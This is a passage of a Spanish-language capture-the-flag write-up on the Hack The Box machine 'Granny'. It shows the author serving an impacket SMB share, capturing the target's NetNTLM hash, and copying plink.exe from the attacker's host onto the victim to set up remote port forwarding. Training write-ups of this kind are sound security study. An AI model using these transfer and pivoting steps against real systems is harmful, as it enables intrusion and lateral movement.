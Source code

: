 ```bash
  UDP    10.10.10.15:137        *:*                    
  UDP    10.10.10.15:138        *:*                    
  UDP    127.0.0.1:123          *:*                    
  UDP    127.0.0.1:1029         *:*                    

c:\windows\system32\inetsrv>
```

Vemos que tiene el puerto 445 abierto de manera interna, así que vamos a aplicar un *Remote Port Forwarding* con la herramienta [plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) descargando para la arquitectura x86. Nos compartimos un servidor SMB y transferimos el archivo:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.15,1035)
[*] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY)
[*] User GRANNY\GRANNY$ authenticated successfully
[*] GRANNY$::HTB:ef434db551e7093b00000000000000000000000000000000:693edb5a9ff91cca86f1f6b11c6a63a5dd306ae6bd614486:aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
```

```bash
copy \\10.10.14.16\smbFolder\plink.exe plink.exe
copy \\10.10.14.16\smbFolder\plink.exe plink.exe
        1 file(s) copied.

C:\WINDOWS\Temp\Privesc>

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\WINDOWS\Temp\Privesc

09/21/2021  04:10 AM    <DIR>          .
09/21/2021  04:10 AM    <DIR>          ..
09/21/2021  01:27 AM           646,384 plink.exe
               1 File(s)        646,384 bytes
               2 Dir(s)   1,338,937,344 bytes free

C:\WINDOWS\Temp\Privesc>
```
